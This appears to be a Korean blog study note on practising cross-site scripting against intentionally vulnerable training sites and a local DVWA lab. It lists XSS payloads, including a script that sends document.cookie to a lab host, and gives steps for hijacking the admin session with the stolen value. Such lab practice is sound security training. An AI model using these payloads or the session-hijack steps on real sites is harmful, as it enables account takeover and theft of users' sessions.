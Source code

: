 ```yaml
---
title: "웹 보안 실습 2"
date: 2024-11-17
categories: [정보보안, 웹 보안]
tags: [IT, Security, Web]
---
```


## **XSS (Cross-Site Scripting)**

### **취약한 사이트 실습**

#### **1. Acunetix 사이트**

- **URL**: [http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1)

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시


#### **2. AltroMutual 사이트**

- **URL**: [demo.testfire.net](https://demo.testfire.net)

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시
- `<script>location.href="http://www.naver.com";</script>`  
  사용자를 네이버 웹사이트로 리다이렉션

#### **3. DVWA 사이트 (Kali Linux/Ubuntu Apache2 환경)**

1. 우분투 아파치 웹 서버 로그 남기기
![](assets/img/정보보안/실습/W_2-1.jpg)

2. DVWA에서 실행할 스크립트 작성
`<script>document.location='http://10.10.10.11/cookie?'+document.cookie</script?>`

3. DVWA XSS에서 실행 (admin/password 계정)

4. 우분투에서 로그 확인 (SSID)

5. 우분투에서 DVWA 접속 (pablo/letmein 계정)

6. f12 저장소의 SSID 값을 로그에서 확인한 값으로 변경

7. 새로고침 하면 admin계정으로 접속 됨